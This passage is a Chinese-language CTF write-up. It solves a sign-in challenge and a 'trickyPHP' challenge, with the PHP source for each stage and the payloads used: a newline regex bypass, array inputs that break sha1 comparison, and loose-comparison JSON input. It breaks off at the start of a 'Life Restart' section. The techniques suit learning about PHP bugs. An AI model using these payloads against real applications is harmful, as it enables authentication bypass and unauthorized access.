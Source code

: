 什么？肉眼看flag太难了？解决方法包括但不限于以下：  
- 买个好用的眼镜或者找准时机OCR一下flag  
- 把被加密的JS放到[在线JS压缩网站](https://tool.css-js.com/)解密得到flag变量名 查看t变量的值
- 通过window变量查看所有变量的值 其中就有flag

相信大家可以轻松完成签到
> flag{Ev3ry_0ne_1ove5_baNaNa_exCept_fu*k1n9_js}

### trickyPHP
给了源码，来一点点过关。第一关是需要say中包含JOIN_COMPASS_CTF#，但是首先会正则卡掉COMPASS。   
```php
$say = preg_replace('/^(.*)COMPASS(.*)$/', '${1}<!--nope-->${2}', $_GET['say']);
    if (preg_match('/JOIN_COMPASS_CTF#/', $say)) {
        echo "Welcome to COMPASS CTF, continue hacking!<br>";
    } else {
        echo 'Bad hacker!';
    }
```
换行绕过正则，用url编码避免#被解析为html标签：  
>  ?say=%0aJOIN_COMPASS_CTF%23

第二关需要post两个内容不同但是sha1一样的内容
```php
if ($_POST['user'] == $_POST['pwd']) {
    echo 'You cant do that!';
} else if (sha1($_POST['user']) === sha1($_POST['pwd'])) {
    echo 'Great, you almost get there!<br>';
} else {
    die("Not same, sorry.");
}
```
很容易想到碰撞，但是在php中有更简单方法：传入非字符串内容，sha1会返回失败，造成false===false，比如传入内容不同的两个数组。  
> user[]=1&pwd[]=2

第三关解码json格式的flag，然后和flag弱比较  
```php
$leve1_3 = json_decode($_POST['flag']);
if ($leve1_3->result == $flag) {
    echo "Congratulations, you won your flag:&nbsp &nbsp " . $flag;
} else {
    echo "So close!!!";
}
```
弱比较时，我们可控的变量在左边，可以直接令其为0使得条件恒成立。  
> flag={"result":0}

组合起来就是
> GET("http://xx.xx/?say=%0aJOIN_COMPASS_CTF%23")   
> user[]=1&pwd[]=2&flag={"result":0}

### Life Restart
**大佬的解法：抓包看 event.json **  
**普通解法如下**  
看一下文件结构  